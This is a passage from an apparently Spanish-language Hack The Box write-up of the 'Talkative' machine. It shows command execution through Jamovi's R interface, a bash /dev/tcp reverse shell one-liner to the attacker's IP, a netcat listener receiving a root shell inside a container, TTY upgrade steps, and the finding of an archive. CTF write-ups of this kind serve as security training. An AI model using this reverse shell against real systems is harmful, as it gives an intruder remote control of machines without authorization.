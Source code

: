Pruebo las credenciales por defecto, pero no son válidas. Desde el ```Jamovi``` que se encuentra en el puerto 8080 es posible ejecutar comandos

<img src="/writeups/assets/img/Talkative-htb/3.png" alt="">

Me envío una reverse shell

```null
system("bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1' 2>&1", intern = TRUE)
```

Y la recibo en una sesión de netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.155] 48816
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@b06821bbda78:/# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@b06821bbda78:/# export TERM=xterm
root@b06821bbda78:/# export SHELL=bash
root@b06821bbda78:/# stty rows 55 columns 209
```

Estoy dentro de un contenedor

```null
root@b06821bbda78:/# hostname -I
172.18.0.2 
```

Dentro del directorio personal de ```root``` hay un comprimido

```null
root@b06821bbda78:~# file bolt-administration.omv  
bolt-administration.omv: Zip archive data, at least v2.0 to extract
```
